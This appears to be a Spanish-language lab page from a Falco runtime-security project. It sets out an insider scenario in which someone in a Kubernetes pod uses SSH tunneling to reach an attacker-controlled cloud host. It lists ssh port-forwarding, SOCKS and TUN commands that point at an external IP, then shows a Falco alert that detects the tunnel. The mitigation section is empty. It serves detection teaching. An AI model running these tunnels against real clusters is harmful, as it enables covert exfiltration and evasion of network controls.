 # Scenario A: Exfiltración de Información mediante SSH Tunneling en Kubernetes

> SSH Port forwarding (Tunelización de puertos)

<!-- <img src="../../assets/memoryDumping.webp" align="center" width="50%" height="50%"/> -->

<!-- <div style="text-align: center;"> -->


<div style="display: flex; align-items: center; border: 1px solid #ddd; padding: 15px; border-radius: 8px;">
  <div style="flex: 1;">
    <img src="../../assets/ssh-port-forwarding.webp" style="max-width: 100%; height: auto; border-radius: 5px;" />
  </div>
  <div style="flex: 2; padding-left: 20px; text-align: justify;">
    <p>
      En un entorno corporativo seguro, un empleado malintencionado busca evadir las restricciones impuestas por la compañía y establecer un canal de comunicación no autorizado desde un pod de Kubernetes. Para lograrlo, configura una conexión <strong>SSH tunneling</strong> con el objetivo de exfiltrar información de manera encubierta.
    </p>
    <p>
      Aprovechando el acceso al pod, el atacante ejecuta comandos para establecer un <strong>túnel SSH reverso</strong> hacia una instancia de <em>Compute Engine</em> en <strong>Google Cloud Platform (GCP)</strong> bajo su control. Esta técnica le permite no solo extraer datos sensibles desde la infraestructura interna, sino también redirigir el tráfico de la subred en la que se encuentra el pod. Como resultado, el atacante obtiene acceso indirecto a otros recursos internos que, de otra manera, estarían protegidos por controles de red y políticas de seguridad.
    </p>
    <p>
      El uso de <strong>SSH tunneling</strong> en este contexto representa una amenaza significativa, ya que permite eludir firewalls y sistemas de monitoreo convencionales. Sin una solución de seguridad efectiva como <em>Falco runtime security</em>, este tipo de actividad podría pasar desapercibida, comprometiendo la integridad y confidencialidad de la información corporativa.
    </p>
  </div>
</div>





    ssh -D 8080 user@server  (SSH Tunneling encapsula todo el tráfico TCP a través de una conexión segura SSH, actuando como una especie de VPN básica.)



    ssh -w 0:0 usuario@servidor



| Tipo                   | Descripción                                                                                  | Comando                                                                 |
|------------------------|----------------------------------------------------------------------------------------------|-------------------------------------------------------------------------|
| SSH Port Forwarding    | Establece un túnel en el puerto local 3306 hacia el puerto 3306 del servidor remoto (localhost).| `ssh -i gcp_remote -L 3306:localhost:3306 diegoposada@34.27.180.215`    |
| SSH Port Forwarding    | Similar al anterior, pero sin ejecutar comandos remotos (`-N`), solo establece el túnel.       | `ssh -i gcp_remote -NL 3306:localhost:3306 diegoposada@34.27.180.215`   |
| SSH Port Forwarding    | Similar al anterior, pero ejecuta el túnel en segundo plano (`-f`).                           | `ssh -i gcp_remote -fNL 3306:localhost:3306 diegoposada@34.27.180.215`  |
| SSH Tunneling          | Establece un proxy SOCKS en el puerto 1080, lo que permite enrutar tráfico a través del servidor remoto. | `ssh -D 1080 -i gcp_remote diegoposada@34.27.180.21`                   |
| SSH Tunneling          | Crea un túnel VPN basado en SSH utilizando la interfaz TUN/TAP.                              | `ssh -w 0:0 -i gcp_remote diegoposada@34.27.180.21`                    |



Redirigir el puerto 3306 (MySQL) del servidor remoto (34.27.180.215) al pod a través de una conexión SSH. En otras palabras, cualquier conexión a localhost:3306 en el pod se enviará al puerto 3306 del servidor remoto.


### Why can this be a security risk?

🔸Exposición del puerto local: El port forwarding (-L o -R) puede exponer puertos locales o remotos a accesos no autorizados. Si un puerto se reenvía de forma inapropiada, personas no autorizadas podrían acceder a servicios internos a través de un puerto que, de otra manera, estaría cerrado.

🔸 Túneles sin cifrar o inseguridad en el canal SSH: Aunque el canal SSH está cifrado, si las credenciales de acceso (como las claves SSH) no están bien protegidas o si la máquina local es comprometida, un atacante podría utilizar ese túnel para realizar actividades maliciosas o interceptar comunicaciones.

🔸 Uso de un proxy SOCKS o VPN: El comando ssh -D establece un proxy SOCKS y el comando ssh -w establece un túnel VPN, lo cual podría permitir que el tráfico se enrute a través de servidores no confiables. Si no se asegura que el servidor SSH sea confiable y seguro, un atacante podría tener acceso a toda la comunicación a través de esos túneles y potencialmente robar información sensible.

🔸 Acceso a redes privadas o recursos internos: Al hacer tunneling de puertos o utilizar VPN, puedes acceder a redes internas o recursos privados. Si no se configuran correctamente las reglas de firewall o se hacen cambios inadvertidos, estos túneles podrían exponer redes sensibles a posibles atacantes.

 

### How can these risks be mitigated?


## Scenario



Se puede observar que se levanta la regla en Falco.

    {"hostname":"falcox33-falco-obsec-s6nzm","output":"01:30:39.455536915: Warning ssh tunneling (user=<NA> user_loginuid=-1 program=ssh command=ssh -L 60080:127.0.0.1:60080 -N ots-yODc2NGQ@10.10.10.133 ots-yODc2NGQ@10.10.10.133 pid=3598 file=<NA> parent=bash gparent=containerd-shim ggparent=systemd gggparent=<NA> container_id=b83b3f40cab2 image=sha256) k8s.ns=falco-custom-lab k8s.pod=sneaky container=b83b3f40cab2","priority":"Warning","rule":"ssh tunneling/ssh port forwarding","source":"syscall","tags":["T1572","container","host","mitre_command_and_control","network"],"time":"2025-02-22T01:30:39.455536915Z", "output_fields": {"container.id":"b83b3f40cab2","container.image.repository":"sha256","evt.time":1740187839455536915,"fd.name":null,"k8s.ns.name":"falco-custom-lab","k8s.pod.name":"sneaky","proc.aname[2]":"containerd-shim","proc.aname[3]":"systemd","proc.aname[4]":null,"proc.cmdline":"ssh -L 60080:127.0.0.1:60080 -N ots-yODc2NGQ@10.10.10.133 ots-yODc2NGQ@10.10.10.133","proc.name":"ssh","proc.pid":3598,"proc.pname":"bash","user.loginuid":-1,"user.name":"<NA>"}}

 con sshuttle no aparece tun0 es decir con ssh -D


 dns tunneling